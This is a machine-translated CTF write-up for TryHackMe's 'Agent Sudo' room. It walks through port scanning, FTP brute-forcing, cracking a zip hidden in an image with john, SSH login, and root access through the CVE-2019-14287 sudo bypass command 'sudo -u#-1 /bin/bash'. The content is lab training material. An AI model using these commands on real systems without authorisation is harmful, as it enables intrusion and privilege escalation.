# Tryhackme: AgentSudo

> 原文：<https://infosecwriteups.com/tryhackme-agentsudo-fcc701caeae3?source=collection_archive---------2----------------------->

## 游戏攻略

# 介绍

乡亲们好，这次让我们根 **AgentSudo** 从 **Tryhackme** 评为易机。


# 首字母

```
export IP=10.10.220.97
```

## 端口扫描

```
rustscan -a $IP --ulimit 5000 | tee rust.txt
```

发现 3 个开放端口`21, 22, 80`

## nmap

让我们深入挖掘这些港口

```
nmap -sC -sV -p21,22,80 oN nmap $IP -Pn 
```



nmap 扫描结果

## 进一步侦察

尝试 FTP 匿名登录→运气不好(不允许)

## 端口 80: http



foport 80

在端口 80 上发现此文本，尝试更改用户代理标头→不成功

但是后来，当我换了浏览器，发现了这个，同样的方法也起作用了



有了这个我们知道用户的密码是脆弱的，让我们暴力破解它

## 端口 21: FTP



拿到密码了



在 ftp 服务器上找到了三个文件



其中两个是图像，我认为是兔子洞(与上一个相同)XD


另一个文件包含注释



有了这张纸条，我知道了图片不是:D 的兔子洞

深入挖掘后，我在一张图片中发现了一个 zip 文件



发现该文件被加密。首先将文件转换成 john 可读的

```
/usr/sbin/zip2john <image_name> > forjhon
```



现在用约翰破解它



破解后，zip 文件包含另一个注释



这个奇怪的词很可疑，在 cyberchef.io 上查了一下，发现它是 base64 编码的 XD



我检查了另一个图像，并用这个作为密码，它的工作！！:o



同样，该文件包含另一个笔记，(我就像有多少笔记离开 XD)



我们在这张纸条上找到了 ssh 密码，耶

# 用户

登录 ssh，我们得到了用户标志



# 根

当你的用户密码是

```
sudo -l
```



> 这告诉我们，除了/bin/bash 之外，用户 james 可以以 root 身份运行任何命令
> 
> 实际上有一个 CVE(**CVE-2019–14287**)在这上面命名为“ ***须藤安全绕过*** ”，有趣的部分是我了解了这个 CVE/bug 同一周 XD
> 了解更多关于这个 CVE [**这里**](https://tryhackme.com/room/sudovulnsbypass)

要利用这一点，只需运行命令

```
sudo -u#-1 /bin/bash
```

我们是根



至此，我们完成了这台机器，感谢您抽出时间阅读本博客(网址:

|| [房间](https://tryhackme.com/room/agentsudoctf) || [推特](https://twitter.com/namx05) ||